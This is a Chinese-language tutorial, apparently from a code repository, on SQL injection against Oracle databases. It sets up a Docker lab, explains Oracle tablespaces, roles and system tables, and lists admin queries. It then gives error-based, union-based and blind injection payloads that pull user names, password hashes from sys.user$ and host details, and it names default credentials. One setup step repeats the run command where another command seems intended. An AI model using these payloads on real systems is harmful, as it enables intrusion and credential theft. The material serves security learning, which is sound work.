


# Oracle注入教程#

## 环境搭建 ##
docker修改国内源安装oracle
```
sudo docker pull alexeiled/docker-oracle-xe-11g 
```

启动oracle服务并映射端口
```
docker run -dit -h "oracle" --name "oracle" -d -p 49160:22 -p 49161:1521 -p 49162:8080 alexeiled/docker-oracle-xe-11g 
```

进入docker运行的oracle容器(凭证:system/oracle,进入数据库)
```
sudo docker run -dit -h "oracle" --name "oracle" -d -p 49160:22 -p 49161:1521 -p 49162:8080 alexeiled/docker-oracle-xe-11g 
```


## 基本概念 ##
>表空间定义
数据文件就是由多个表空间组成的，这些数据文件和相关文件形成一个完整的数据库。当数据库创建时，Oracle 会默认创建五个表空间

* SYSTEM-用于是存储系统表和管理配置等基本信息
* SYSAUX-类似于 SYSTEM，主要存放一些系统附加信息，以便减轻 SYSTEM 的空间负担
* UNDOTBS-用于事务回退等
* TEMP-作为缓存空间减少内存负担
* USERS-存储我们定义的表和数据

Oracle中每个表空间中均存在一张dual表，这个表是虚表，并没有实际的存储意义，它永远只存储一条数据。  

因为Oracle的SQL语法要求select后必须跟上from，所以通常使用dual来作为计算、查询时间等SQL语句中from之后的虚表占位，如  
```
select 1+1 from dual;
```


>权限与用户管理
Oracle 中划分了许多用户权限，权限的集合称为角色。如:
* CONNECT 角色具有连接到数据库权限
* RESOURCE 能进行基本的增删改查
* DBA 集合了所有的用户权限用户

创建数据库时，会默认启用 sys、system 等用户:  
* sys 相当于Linux下的root,为 DBA 角色
* system 相对于 sys 用户，无法修改一些关键的系统数据（维持着数据库的正常运行）,也为 DBA 角色
* public public 代指所有用户（everyone），对其操作会应用到所有用户上（实际上是所有用户都有 public 用户拥有的权限，如果将 DBA 权限给了 public，那么也就意味着所有用户都有了 DBA 权限）

>术语
操作系统环境变量（ORACLE_SID）
```
instance_name（“数据库实例名”）是Oracle的数据库参数，而oracle_sid则是操作系统的环境变量，用户和操作系统交互，也就是说要得到实例名，必须使用sid。在数据库安装结束时 ，oracle_sid已经是一个确定的字符串了，其值必须与数据库实例名相同。
```

数据库实例名（INSTANCE_NAME）
```
实例名用于和操作系统关联，在操作系统中要取得与数据库之间的交互必须使用数据库实例名。（实例简单来说就类似于内存和一些后台进程。）数据库名一般与实例名是一一对应的。
```

数据库名（DB_NAME ）
```
用于区分一个数据的内部标示，即Oracle数据库的内部表示。是以二进制方式存储于数据库的控制文件的参数。在数据库安装或创建之后不得修改。
```

启动/关闭oracle监听器
```
# 启动oracle监听器
lsnrctl start
# 关闭oracle监听器
lsnrctl stop
# 重启oracle监听器
lsnrctl reload
# lsnrctl hep命令可以显示所有可用的监听器命令
```

登录到数据库
```
# 普通用户 
sqlplus scott/don9sec;
# 超级管理员
sqlplus sys/sys as sysdba;
# 两者之间切换
SQL>conn scott/don9sec;
```
**默认sys的凭证system/oracle,数据库安装后默认该凭证**

Oracle的系统表:
* dba_tables : 系统里所有的表的信息，需要DBA权限才能查询
* all_tables : 当前用户有权限的表的信息
* user_tables: 当前用户名下的表的信息
* DBA_ALL_TABLES：DBA 用户所拥有的或有访问权限的对象和表
* ALL_ALL_TABLES：某一用户拥有的或有访问权限的对象和表
* USER_ALL_TABLES：某一用户所拥有的对象和表

## 常见语句 ##
```
show user #查看当前用户
select * from session_privs #查看当前用户权限
select distinct owner,table_name from all_tables #查看当前用户有权限的所有数据库
select * from tab #属于当前用户的表

#查看所有用户 (下面三条语句等价)
select * from dba_users;
select * from all_users;
select * from user_users;

#下面两条都可以（不存在版本问题不一样就不能执行）
select name,password,astatus from sys.user$; #查看所有用户密码哈希值 (# 适用于<=10g)
select name, password, spare4 from sys.user$; #查看所有用户密码哈希值 (# 适用于11g)

# 查看用户或角色系统权限
select * from dba_sys_privs;
select * from user_sys_privs;

# 查看角色所包含的权限 （只能查看登陆用户拥有的角色）
select * from role_sys_privs;

# 查看用户对象权限
select * from dba_tab_privs;
select * from all_tab_privs;
select * from user_tab_privs;

# 查看所有角色
select * from dba_roles;

# 查看用户或角色所拥有的角色
select * from dba_role_privs;
select * from user_role_privs;

# 查看哪些用户有sysdba或sysoper系统权限
select * from V$PWFILE_USERS;

# 查询当前数据库
select name from v$database;

# 所有字段
select column_name from all_tab_columns;

# 指定表名
select column_name from all_tab_columns where table_name='TEST';

# 查看属于其他用户表的数据
（只用超级管理员有这个权限）
select * from soctt.test;

# 查看表的结构
desc <database_name>


# 查看实例名称(sid)
conn / as sysdba (切换权限)
select instance_name from v$instance;
select name from V$database;

# 查看数据库版本
select * from V$VERSION;
SELECT version FROM v$instance;

# 查看操作系统版本信息
SELECT dbms_utility.port_string FROM dual;

# 查看操作系统CPU信息
SELECT * FROM v$osstat;

# 查看主机ip地址
SELECT utl_inaddr.get_host_address FROM dual;

# 查看主机名
SELECT utl_inaddr.get_host_name FROM dual;

# 获取当前数据库所有表名
select TABLE_NAME from all_tables

# 查看指定表空间的表名
select tablespace_name, table_name from user_tables where tablespace_name = 'TEST';
```

增、删、改、查
```
# 创建表空间
create tablespace test datafile 'test.dbf' size 10M;


# 创建指定的表
create table dog
(
    name varchar(12),
    age varchar(12)
)
tablespace test;

# 往表里插入数据（varchar的数据必须用单引号括起来）
insert into dog(NAME,AGE) values('admin','admin'); 

# 查看指定表空间的表名 (以下两条命令同价)
select tablespace_name, table_name from user_tables where tablespace_name = 'TEST';
select TABLE_NAME from all_tables where tablespace_name='TEST'

# 删除表
drop table DOG;

# 删除表空间
（不包含）
drop tablespace test;

--删除空表空间，包含物理文件
drop tablespace tablespace_name including datafiles;
```


## 常见注入语句 ##
报错注入
```
select utl_inaddr.get_host_name((select user from dual)) from dual
select ctxsys.drithsx.sn(1, (select user from dual)) from dual;
select CTXSYS.CTX_REPORT.TOKEN_TYPE((select user from dual), '123') from dual;
select XMLType('<:'||(select user from dual)||'>') from dual;
select dbms_xdb_version.makeversioned((select user from dual)) from dual;
```

常规注入
```
# 判断注入是否存在
select id,username from users where username='admin' and 1=2;
select id,username from users where username='admin' and 1=1;

# 跑字段数量
select id,username from users where username='admin' order by 2;

# 获取注入位置 (要用null来代替空位置不然会报错)
select id,username,password from users where username='admin' union select null,null,null from dual;

ps:查询数据不能超过1行不然会报错,并且只能有一个字段的内容
# 查询数据库版本
select id,username,password from users where username='admin' union select null,(SELECT banner FROM v$version WHERE banner LIKE 'Oracle%'),null from dual;

# 获取当前所在数据库
select id,username,password from users where username='admin' union select null,(SELECT name FROM v$database),null from dual;

# 获取当前数据库用户
select id,username,password from users where username='admin' union select null,(select user from dual),null from dual;

# 查询当前数据库用户的hash
select id,username,password from users where username='admin' union select null,(select * from (select password from sys.user$ where user='SYSTEM') where rownum=1),null from dual;

# 获取主机名
select id,username,password from users where username='admin' union select null,(SELECT host_name FROM v$instance),null from dual;

# 查询IP
select id,username,password from users where username='admin' union select null,(SELECT UTL_INADDR.get_host_address FROM dual),null from dual;

# 查询系统
select id,username,password from users where username='admin' union select null,(SELECT dbms_utility.port_string FROM dual),null from dual;

# 查询指定用户的数据库名
select id,username,password from users where username='admin' union select null,(select DEFAULT_TABLESPACE from dba_users where USERNAME='HR'),null from dual;

# 查询当前用户的表
select id,username,password from users where username='admin' union select null,(select table_name from user_tables where rownum=1),null from dual;

# 查询当前用户的表 (排除指定的表名，获取下一个表名)
select id,username,password from users where username='admin' union select null,(select table_name from user_tables where table_name <> 'AQ$_INTERNET_AGENTS' and rownum=1),null from dual;


# 查询指定表名的字段名
select id,username,password from users where username='admin' union select null,(select column_name from user_tab_columns where table_name='USERS' and rownum=1),null from dual;

# 查询指定表名的字段名 （排除指定的字段名，获取下一个字段名）
select id,username,password from users where username='admin' union select null,(select column_name from user_tab_columns where table_name='USERS' and column_name <> 'ID' and rownum=1),null from dual;

# 查询数据
select id,username,password from users where username='admin' union select null,(select USERNAME from USERs where rownum=1),null from dual;
```

盲注
构造不同条件,通过返回页面/响应码的不同进行注入。
* substr() 字符串比较
* substr() + decode()
* case + substr() + ascii()
* case + instr() + chr()
```
# 猜解用户
select id,username,password from users where username='admin' and (select substr(user, 1, 1) from dual)='S'; #返回正常
select id,username,password from users where username='admin' and (select substr(user, 1, 1) from dual)='S'; #返回异常
select id,username,password from users where username='admin' and (select substr(user, 1, 6) from dual)='SYSTEM'

# 猜解的一个表名测试
select id,username,password from users where username='admin' and substr((select table_name from user_tables where rownum=1),1,1)='A'
select id,username,password from users where username='admin' and substr((select table_name from user_tables where table_name <> 'AQ$_INTERNET_AGENTS
' and rownum=1),1,1)='L'
```


## 参考链接 ##
[Docker：（一）安装Oracle数据库](https://blog.csdn.net/ScorpC/article/details/90754321)
[oracle 查询表名以及表的列名](https://blog.csdn.net/zhouxinhong/article/details/7633385)
[Oracle注入从0到1/2 ](https://mp.weixin.qq.com/s?__biz=MzU0MDg5MzIzMQ==&mid=2247484984&idx=1&sn=63e5f3461cee5b5f0038d282cc66860f)